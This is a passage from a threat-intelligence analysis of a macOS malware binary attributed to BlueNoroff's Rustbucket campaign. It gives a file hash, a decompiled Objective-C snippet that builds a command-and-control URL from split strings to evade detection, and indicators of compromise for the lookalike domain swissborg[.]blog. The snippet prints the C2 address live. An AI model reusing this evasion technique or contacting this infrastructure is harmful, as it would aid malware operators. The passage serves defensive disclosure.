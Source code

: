 







                        
                            SHA1: 79337ccda23c67f8cfd9f43a6d3cf05fd01d1588
                        
                    





The standalone binary, labeled ProcessRequest, is ad-hoc signed and has been observed communicating with the domain swissborg[.]blog. This raised suspicions, especially since a legitimate cryptocurrency exchange exists operating under the domain swissborg.com, where they host a legitimate blog at the URL swissborg.com/blog. The malware splits the command and control (C2) URL into two separate strings that get concatenated together. This is likely an attempt to evade static-based detection.






                        
                            rax = [@"http://swissborg.b" stringByAppendingString:@"log/zxcv/bnm"];
rax = [rax retain];
var_50 = rax;
rax = [NSURL URLWithString:rax];
rax = [rax retain];
var_48 = rax;
rax = [NSMutableURLRequest requestWithURL:rax];
rax = [rax retain];
                        
                    





The usage of this domain greatly aligns with the activity we’ve seen from BlueNoroff in what Jamf Threat Labs tracks as the Rustbucket campaign. In this campaign, the actor reaches out to a target claiming to be interested in partnering with or offering them something beneficial under the guise of an investor or head hunter. BlueNoroff often creates a domain that looks like it belongs to a legitimate crypto company in order to blend in with network activity. The malicious domain swissborg[.]blog was registered on May 31, 2023, and resolves to the IP address 104.168.214[.]151. Pivoting from this domain revealed several URLs used for the malware’s communication. However, at the time of our analysis, the C2 server did not respond to any of these URLs and went offline shortly after our attempts to communicate.






                        
                            hXXp://swissborg.blog/zxcv/bnm
hXXp://swissborg.blog/ghjk/yuio
hXXp://swissborg.blog/qwertyuiop/asdfghjkl
hXXps://swissborg.blog/tx/10299301992/hash
                        
                    



